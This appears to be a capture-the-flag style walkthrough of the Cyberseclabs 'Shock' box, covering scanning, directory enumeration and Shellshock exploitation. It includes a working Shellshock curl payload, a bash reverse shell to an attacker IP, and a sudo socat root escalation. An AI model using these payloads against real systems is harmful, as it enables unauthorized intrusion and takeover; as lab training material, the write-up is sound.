 In this walkthrough, we'll go over a beginner level box called ***Shock*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Shock IP](shockIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -sC -n 172.31.1.3
```
![Shock nmap](shocknmap.png)

We can see that the port 80 open and it looks like a restaurant website is being served on this port:
![Shock index](shockwebpage.png)

We can start a directory enumeration on this site to see if we can find anything else. We can use the following `sudo dirsearch  -u http://172.31.1.3 -r -f -t 100 -x 403`:
![Shock dirsearch](shockdirsearch.png)

We find ***cgi-bin*** folder is present. Maybe it is vulnerable to the Shell Shock vulnerability. We can easily test it with nmap `sudo nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi 172.31.1.3 -p 80`:
![Shock nmap cgi](shockcginmap.png)

It looks like this machine is vulnerable to CVE-2014-6271 which is the Shell Shock vulnerability. Let's see if we can list the local directories with `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -la;'" http://172.31.1.3/cgi-bin/test.cgi`:
![Shock check vul](shockcheckcgi.png)

Let's start a nc listener on port 5555 `nc -nvlp 5555` and then run the following command to get a reverse shell `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.0.18/5555 0>&1;'" http://172.31.1.3/cgi-bin/test.cgi`:

![Shock foothold](shockfoothold.png)

I also wrote a Python exploit for this vulnerability which we can use it on this box. You can find [EffectiveShellShocker here](https://github.com/sinanozdemir/effectiveShellShocker) after cloning it, we can use the following to receive a shell back on port 5555:
![Shock EffectiveShellShocker](shockEffectiveShellShocker.png)
![Shock EffectiveShellShocker Shell](shockEffectiveShellShockerShell.png)

As we can see we are www-data user, let's see if we can run any commands as another user `sudo -l`:
![Shock sudo -l](shocksudo-l.png)

We can become root by running the following `sudo socat stdin exec:/bin/sh`:

![Shock root](shockroot.png)

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
